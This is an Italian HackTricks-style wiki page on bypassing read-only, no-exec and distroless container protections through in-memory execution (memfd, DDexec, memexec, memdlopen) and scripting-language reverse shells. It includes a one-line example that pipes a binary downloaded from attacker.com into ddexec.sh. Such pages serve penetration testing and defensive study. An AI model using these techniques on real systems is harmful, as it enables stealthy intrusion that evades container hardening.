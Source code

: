 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nell'hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_richiesta di polacco fluente scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video

Nei seguenti video puoi trovare le tecniche menzionate in questa pagina spiegate più in dettaglio:

* [**DEF CON 31 - Esplorare la manipolazione della memoria Linux per stealth e evasione**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusioni stealth con DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## scenario read-only / no-exec

È sempre più comune trovare macchine linux montate con **protezione del file system in sola lettura (ro)**, specialmente nei container. Questo perché eseguire un container con file system ro è facile come impostare **`readOnlyRootFilesystem: true`** nel `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Tuttavia, anche se il file system è montato come ro, **`/dev/shm`** sarà comunque scrivibile, quindi è falso che non possiamo scrivere nulla nel disco. Tuttavia, questa cartella sarà **montata con protezione no-exec**, quindi se scarichi un binario qui **non sarai in grado di eseguirlo**.

{% hint style="warning" %}
Da una prospettiva di red team, questo rende **complicato scaricare ed eseguire** binari che non sono già nel sistema (come backdoor o enumeratori come `kubectl`).
{% endhint %}

## Bypass più semplice: Script

Nota che ho menzionato i binari, puoi **eseguire qualsiasi script** purché l'interprete sia all'interno della macchina, come uno **script shell** se `sh` è presente o uno **script python** se `python` è installato.

Tuttavia, questo non è sufficiente per eseguire la tua backdoor binaria o altri strumenti binari che potresti aver bisogno di eseguire.

## Bypass in memoria

Se vuoi eseguire un binario ma il file system non lo consente, il modo migliore per farlo è **eseguirlo dalla memoria**, poiché le **protezioni non si applicano lì**.

### Bypass syscall FD + exec

Se hai alcuni potenti motori di script all'interno della macchina, come **Python**, **Perl** o **Ruby**, potresti scaricare il binario da eseguire dalla memoria, memorizzarlo in un descrittore di file in memoria (`create_memfd` syscall), che non sarà protetto da quelle protezioni e poi chiamare una **syscall `exec`** indicando il **fd come file da eseguire**.

Per questo puoi facilmente usare il progetto [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Puoi passargli un binario e genererà uno script nel linguaggio indicato con il **binario compresso e codificato in b64** con le istruzioni per **decodificarlo e decomprimerlo** in un **fd** creato chiamando la syscall `create_memfd` e una chiamata alla syscall **exec** per eseguirlo.

{% hint style="warning" %}
Questo non funziona in altri linguaggi di scripting come PHP o Node perché non hanno alcun **modo predefinito per chiamare syscall raw** da uno script, quindi non è possibile chiamare `create_memfd` per creare il **memory fd** per memorizzare il binario.

Inoltre, creare un **fd regolare** con un file in `/dev/shm` non funzionerà, poiché non ti sarà permesso eseguirlo a causa della **protezione no-exec** che si applicherà.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) è una tecnica che ti consente di **modificare la memoria del tuo stesso processo** sovrascrivendo il suo **`/proc/self/mem`**.

Pertanto, **controllando il codice assembly** che viene eseguito dal processo, puoi scrivere un **shellcode** e "mutare" il processo per **eseguire qualsiasi codice arbitrario**.

{% hint style="success" %}
**DDexec / EverythingExec** ti permetterà di caricare e **eseguire** il tuo **shellcode** o **qualsiasi binario** dalla **memoria**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Per ulteriori informazioni su questa tecnica controlla il Github o:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) è il passo successivo naturale di DDexec. È un **DDexec shellcode demonizzato**, quindi ogni volta che vuoi **eseguire un binario diverso** non è necessario rilanciare DDexec, puoi semplicemente eseguire il shellcode di memexec tramite la tecnica DDexec e poi **comunicare con questo demone per passare nuovi binari da caricare ed eseguire**.

Puoi trovare un esempio su come usare **memexec per eseguire binari da una reverse shell PHP** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Con uno scopo simile a DDexec, la tecnica [**memdlopen**](https://github.com/arget13/memdlopen) consente un **modo più semplice per caricare binari** in memoria per eseguirli successivamente. Potrebbe anche consentire di caricare binari con dipendenze.

## Bypass Distroless

### Cos'è distroless

I container distroless contengono solo i **componenti minimi necessari per eseguire un'applicazione o un servizio specifico**, come librerie e dipendenze di runtime, ma escludono componenti più grandi come un gestore di pacchetti, shell o utilità di sistema.

L'obiettivo dei container distroless è **ridurre la superficie di attacco dei container eliminando componenti non necessari** e minimizzando il numero di vulnerabilità che possono essere sfruttate.

### Reverse Shell

In un container distroless potresti **non trovare nemmeno `sh` o `bash`** per ottenere una shell regolare. Non troverai nemmeno binari come `ls`, `whoami`, `id`... tutto ciò che di solito esegui in un sistema.

{% hint style="warning" %}
Pertanto, **non** sarai in grado di ottenere una **reverse shell** o **enumerare** il sistema come fai di solito.
{% endhint %}

Tuttavia, se il container compromesso sta eseguendo ad esempio un'app web Flask, allora Python è installato, e quindi puoi ottenere una **reverse shell Python**. Se sta eseguendo Node, puoi ottenere una reverse shell Node, e lo stesso vale per quasi qualsiasi **linguaggio di scripting**.

{% hint style="success" %}
Utilizzando il linguaggio di scripting potresti **enumerare il sistema** utilizzando le capacità del linguaggio.
{% endhint %}

Se non ci sono protezioni **`read-only/no-exec`** potresti abusare della tua reverse shell per **scrivere nel file system i tuoi binari** e **eseguirli**.

{% hint style="success" %}
Tuttavia, in questo tipo di container queste protezioni di solito esistono, ma potresti utilizzare le **tecniche di esecuzione in memoria precedenti per bypassarle**.
{% endhint %}

Puoi trovare **esempi** su come **sfruttare alcune vulnerabilità RCE** per ottenere reverse shell di linguaggi di scripting ed eseguire binari dalla memoria in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nel hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_richiesta di polacco fluente scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
